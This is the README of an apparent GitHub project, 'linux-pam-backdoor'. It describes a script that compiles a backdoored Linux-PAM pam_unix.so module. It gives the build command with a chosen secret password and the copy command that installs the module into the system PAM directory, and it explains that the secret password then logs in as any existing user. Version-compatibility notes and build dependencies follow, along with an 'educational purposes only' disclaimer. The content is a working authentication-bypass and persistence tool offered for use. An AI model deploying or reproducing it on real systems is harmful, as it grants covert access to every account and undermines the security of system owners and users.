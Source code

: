 # linux-pam-backdoor         
Linux PAM Backdoor           
                             
This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

## Usage
To generate the backdoored pam_unix.so, just run:
```
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd
```

You have to identify the PAM version installed on the system, to make sure the script will compile the right version. Otherwise you can break the whole system authentication.

After the execution of the script, the last step is to copy the generated pam_unix.so to the pam modules dir on the host. 

```
cp pam_unix.so /usr/lib/security/
```

That's all. 

After that, you can log-in to the system using an existing user, and the previously configured password.

Use this for educational purposes only.
I am not responsible for the damage you might cause.

## Dependencies 

Tested with Ubuntu 20.04: 
* 1.1.8 and older: failed to compile
* 1.2.0: worked
* 1.3.0 to 1.4.0: worked

The following packages were used:
```bash
apt install -y autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```
